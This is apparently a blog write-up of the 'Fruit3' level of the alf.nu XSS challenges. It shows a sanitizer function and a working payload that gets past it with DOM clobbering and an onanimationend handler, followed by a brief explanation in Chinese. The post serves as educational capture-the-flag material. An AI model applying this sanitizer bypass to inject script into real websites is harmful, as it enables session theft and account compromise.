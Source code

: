 ```yaml
---
layout: post
title:  "alf.nu XSS challenges Write-ups level18 to level29 (part two)"
date:   2018-10-19 21:46:23 +0800
categories: jekyll update
---
```

# alf.nu XSS challenges Write-ups level18 to level29 (part two)

## Fruit3
### code
```javascript
function escape(s) {
  var div = document.implementation.createHTMLDocument().createElement('div');
  div.innerHTML = s;
  function f(n) {
    if (/script/i.test(n.tagName)) n.parentNode.removeChild(n);
    for (var i=0; i<n.attributes.length; i++) {
      var name = n.attributes[i].name;
      if (name !== 'class') { n.removeAttribute(name); i--; }
    }
  }
  [].map.call(div.querySelectorAll('*'), f);
  return div.innerHTML;
}
```
### solution
```javascript
<style>@keyframes x{}</style><form style="animation-name:x" onanimationend="alert(1)"><input id=attributes></form>
```
### background info
这个XSS主要的技术是dom clobbering. (https://portswigger.net/web-security/dom-based/dom-clobbering)。DOM clobbering不仅可以利用dom element来控制window scope的变量, 还可以用form元素的子元素input来污染form scope的变量. 
题中遍历了n.attributes, 其属性"attributes"就被子元素的的input污染了.
在理解这个原理后, 找一个合适的POC就可以了. https://portswigger.net/web-security/cross-site-scripting/cheat-sheet . 注意iframe中autofocus是不能执行的.